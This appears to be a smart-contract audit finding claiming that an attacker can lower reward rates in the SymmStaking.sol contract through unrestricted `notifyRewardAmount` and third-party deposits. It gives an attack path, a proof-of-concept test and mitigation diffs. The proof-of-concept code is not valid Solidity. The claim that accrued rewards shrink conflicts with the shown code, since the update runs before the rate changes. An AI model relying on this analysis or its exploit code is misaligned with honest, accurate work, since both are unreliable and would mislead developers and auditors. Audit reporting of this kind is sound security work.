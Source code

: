 Massive Bone Haddock

High

# Attacker Can Manipulate Reward Rates to Cause Other Stakers' Losses in Rewards

### Summary

The `notifyRewardAmount` function in the `SymmStaking.sol` contract allows any user to manipulate the reward rate by injecting small amounts of tokens. Due to the lack of proper access control and amount restrictions, attackers can reduce the rate, causing direct financial losses to other stakers through reduced rewards.

### Root Cause

The vulnerability arises due to:  
- Lack of access control on `notifyRewardAmount` function and absence of a minimum threshold for reward rate calculation.  
- Missing validation to ensure the `msg.sender` is the intended receiver and no restriction on small amount deposits, so that attacker can target specific users through unauthorized deposits and users receive lower than expected rewards.
- Indirect Impact on All Users: Any user performing legitimate operations (claimRewards/deposit/withdraw)  after rate manipulation, their rewards are recalculated using the manipulated lower rate.


1.**Rate Manipulation through `notifyRewardAmount` function**: Attacker could reduce the reward rate by small deposit amount due to no access control. For example, attacker calls `notifyRewardAmount` with minimal amount (e.g., 10 tokens), so that new lower rate is calculated: (10 + remaining_rewards) / duration.

[token/contracts/staking/SymmStaking.sol:notifyRewardAmount#L289](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L289)
```solidity
	function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
            _updateRewardsStates(address(0));
...
            _addRewardsForToken(token, amount); // @ Attacker could reduce the reward rate by small deposit amount due to no access control
...
```
[token/contracts/staking/SymmStaking.sol:_addRewardsForToken#L374](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L374)
```solidity
	function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];
...
                 state.rate = (amount + leftover) / state.duration; // @audit Attacker could reduce the reward rate
...

```

2.**Reward Update Trigger through small amount of `deposit` and withdraw**: Attacker can then deposit small amount, causing receivers to get incorrect reward calculations, resulting in a loss of expected rewards. For exmaple, attacker could trigger `_updateRewardsStates` via deposit(amount, receiver) function by small amount, so that all receivers' rewards are recalculated using the lower rate. 

Additionally, any user performing legitimate operations (claimRewards/deposit/withdraw) after rate manipulation, their rewards are recalculated using the manipulated lower rate.

[token/contracts/staking/SymmStaking.sol:deposit#L235-L237](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L235C1-L237C40)
[token/contracts/staking/SymmStaking.sol:withdraw#L251](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L251)
[token/contracts/staking/SymmStaking.sol:claimRewards#L266](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L266)

```solidity
	function deposit(uint256 amount, address receiver) external nonReentrant whenNotPaused {

		_updateRewardsStates(receiver);  //@audit Attacker can deposit small amount, causing receivers to get incorrect reward calculations, resulting in a loss of expected rewards.

		if (amount == 0) revert ZeroAmount(); 
        }

	function claimRewards() external nonReentrant whenNotPaused {
		_updateRewardsStates(msg.sender); // @audit Legitimate users (claimRewards/deposit/withdraw) receive reduced rewards due to the manipulated lower rate.		 
                 _claimRewardsFor(msg.sender);
	}


```

### Internal Pre-conditions

   - Active reward period (periodFinish > block.timestamp)
   - Current rate > 0
   - Users have unclaimed rewards
   - Total supply > 0

### External Pre-conditions

1. Attacker requirements:
   - Minimal amount of reward tokens
   - Sufficient gas for transactions
2. Target conditions:
   - Other users have unclaimed rewards
   - Current reward rate is relatively high

### Attack Path

- Attacker calls `notifyRewardAmount` with minimal amount (e.g., 10 tokens)
- New lower rate is calculated: (10 + remaining_rewards) / duration
- Attacker triggers `_updateRewardsStates` via deposit(amount, receiver) function by small amount 
- All receivers' rewards are recalculated using the lower rate
- Additionally, any user performing legitimate operations ( claimRewards/deposit/withdraw ) after rate manipulation, their rewards are recalculated using the manipulated lower rate.

1. Observe current state:
   rate = 100 tokens/second
   remaining time = 50 seconds
   
2. Execute attack:
   // Transfer minimal tokens
   notifyRewardAmount([rewardToken], [10]);
   
3. Result:
   newRate = (10 + 50 * 100) / 100 = 50.1 tokens/second
   
4. Impact:
   Other users' rewards calculated with reduced rate
   rewards = balance * (newRate * time)

### Impact

1.Indirect Impact on All Users: Any user performing legitimate operations (claimRewards/deposit/withdraw) after rate manipulation, their rewards are recalculated using the manipulated lower rate.

2.Attacker can target specific receiver through unauthorized deposits by and receiver get lower than expected rewards.

### PoC

This proof of concept demonstrates how an attacker can manipulate reward rates and affect other users' rewards through unauthorized deposits. The attack consists of three main steps:
- Rate manipulation through small reward notification
- Forced reward update through unauthorized deposit

The PoC shows that the attacker can cause significant losses to other stakers with minimal cost.

<details><summary>POC</summary>

```solidity

function testCombinedAttack() public {
    // Setup
    vm.startPrank(admin);
    rewardToken.mint(attacker, 100);
    stakingToken.mint(attacker, 100);
    vm.stopPrank();

    // Record initial states
    uint256 initialRate = staking.rewardState(rewardToken).rate;
    uint256[] initialRewards;
    for(victim in victims) {
        initialRewards.push(staking.earned(victim, rewardToken));
    }

    // Execute combined attack
    vm.startPrank(attacker);
    
    // Step 1: Rate manipulation
    rewardToken.approve(address(staking), 10);
    staking.notifyRewardAmount([rewardToken], [10]);
    
    // Step 2: Force updates
    stakingToken.approve(address(staking), victims.length);
    for(uint i = 0; i < victims.length; i++) {
        staking.deposit(1, victims[i]);
        
        uint256 newReward = staking.earned(victims[i], rewardToken);
        console.log(
            "Victim", i,
            "Initial reward:", initialRewards[i],
            "New reward:", newReward,
            "Loss:", initialRewards[i] - newReward
        );
        
        assert(newReward < initialRewards[i]);
    }
    vm.stopPrank();
}

```

</details>

### Mitigation

It is recommended to implement access control and set a minimum threshold for the `notifyRewardAmount` function. 

```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts
) external 
    nonReentrant 
    whenNotPaused
+    onlyRole(REWARD_MANAGER_ROLE)
{
// ... existing logic
+ 	if (amount < MINIMUM_REWARD_AMOUNT)  revert RewardTooSmall();

}
```
Additionally, it would be better to verify that the `msg.sender` is the intended receiver and enforce a minimum deposit requirement.

```solidity
	function deposit(uint256 amount, address receiver) external nonReentrant whenNotPaused {
...
+          if (msg.sender != receiver) revert UnauthorizedDeposit();
+          if (amount < MINIMUM_DEPOSIT_AMOUNT)  revert DepositTooSmall();
...

```